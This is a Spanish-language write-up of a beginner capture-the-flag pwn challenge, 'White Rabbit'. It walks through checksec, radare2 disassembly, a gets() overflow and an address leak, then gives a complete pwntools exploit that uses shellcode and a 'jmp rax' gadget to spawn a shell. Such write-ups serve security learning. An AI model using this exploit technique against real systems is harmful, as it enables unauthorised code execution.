 # Begginers / White Rabbit

Un reto de pwn, analizamos las propiedades del ejecutable

``` bash
checksec --file=white_rabbit 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2	white_rabbit
```

+ No canary found: Es vulnerable a buffer overflow

+ NX disabled: El codigo de la pila es ejecutable

Observamos el binario
``` bash
./white_rabbit 

  (\_/)
  ( •_•)
  / > 0x5609dc927180

follow the white rabbit...
```

Nos filtran una direccion de memoria y podemos introducir datos. Desensamblamos el programa con Radare2 y observamos mejor este comportamiento al desensamblar sym.main y sym.follow respectivamente

``` asm
|           0x000011fc      488d057dff..   lea rax, [sub.dbg.main_1180] ; warmup.c:20 ; 0x1180
|           0x00001203      4889c6         mov rsi, rax
|           0x00001206      488d050d0e..   lea rax, str._______p_n_n   ; 0x201a ; "  / > %p\n\n"
|           0x0000120d      4889c7         mov rdi, rax                ; const char *format
|           0x00001210      b800000000     mov eax, 0  
|           0x00001215      e826feffff     call sym.imp.printf         ; int printf(const char *format)
```

``` asm
            ;-- follow:
            ; CALL XREF from sub.dbg.main_1180 @ 0x122e(x)
/ 23: sub.dbg.follow_1169 ();
| afv: vars(1:sp[0x78..0x78])
|           0x00001169      55             push rbp                    ; warmup.c:8 ; void follow();
|           0x0000116a      4889e5         mov rbp, rsp
|           0x0000116d      4883ec70       sub rsp, 0x70
|           0x00001171      488d4590       lea rax, [buf]              ; warmup.c:10
|           0x00001175      4889c7         mov rdi, rax                ; char *s
|           0x00001178      e8d3feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0000117d      90             nop                         ; warmup.c:11
|           0x0000117e      c9             leave
\           0x0000117f      c3             ret
```

Podemos ver que la dirección que se filtra es la de la función main, luego en sym.follow se encuentra la entrada de usuario capturada con gets (una función vulnerable). 

Podemos darnos cuenta de que se reservan 120 bytes antes de la direccion de retorno de main:

``` asm
    push rbp  -> reserva 8 bytes porque estamos en una arquitectura x86_64 y por lo tanto este registro es de 64 bits
    sub rsp, 0x70   ->  reserva 0x70(112 en decimal) bytes
```

Entonces ya tenemos el offset, probamos a llamar de nuevo a una dirección conocida (como main) para comprobar nuestra suposición

``` python3
# test.py
from pwn import *
import re

io = process('./white_rabbit')
elf = context.binary = ELF('./white_rabbit')

leak = io.recv()                                                
main = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)       # Extraemos la direccion de memoria con una expresion regular

print(leak.decode())
payload = cyclic(120)                                           # offset
payload += p64(main)                                            # retorno

io.sendline(payload)

print(io.recv().decode())
io.close()
```


``` bash
python3 test.py 
[+] Starting local process './white_rabbit': pid 8850
[*] '/home/kalcast/Descargas/World_Wide_CTF_2024/Begginers/WhiteRabbit/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes

  (\_/)
  ( •_•)
  / > 0x555f7a73d180

follow the white rabbit...


  (\_/)
  ( •_•)
  / > 0x555f7a73d180

follow the white rabbit...

[*] Stopped process './white_rabbit' (pid 8850)
```

En efecto, tenemos control de RIP. Ahora tenemos que introducir un shellcode en la pila y encontrar una forma de apuntar a esta dirección

``` asm
   lea rax, [buf]   -> rax almacena la direccion base del buffer en la pila
```

Buscamos un gadget del tipo 'jmp rax'. En radare podemos hacer esto con `/R jmp rax`

```

``` asm 
/R jmp rax
  0x000010b1               7415  je 0x10c8
  0x000010b3     488b050e2f0000  mov rax, qword [rip + 0x2f0e]
  0x000010ba             4885c0  test rax, rax
  0x000010bd               7409  je 0x10c8
  0x000010bf               ffe0  jmp rax
``` 

Buscamos su desplazamiento con respeto a la direccion de main. Podemos ver la direccion de main listando las funciones con `afl` 

``` bash
python3
Python 3.12.7 (main, Oct  3 2024, 15:15:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x00001180-0x000010bf)
'0xc1'
```

Ya tenemos todo lo necesario

``` python3
# rabbit.py
from pwn import *
import re

io = process('./white_rabbit')
elf = context.binary = ELF('./white_rabbit')

leak = io.recv()
main = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)
shellcode = asm(shellcraft.sh())                           
jmp_rax = main - 0xc1

payload = shellcode
payload += cyclic(120-len(shellcode))
payload += p64(jmp_rax)

io.sendline(payload)
io.interactive()
io.close()
```

``` bash
 python3 rabbit.py 
[+] Starting local process './white_rabbit': pid 9346
[*] '/home/kalcast/Descargas/World_Wide_CTF_2024/Begginers/WhiteRabbit/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
[*] Switching to interactive mode
$ ls
rabbit.py  test.py  white_rabbit
```





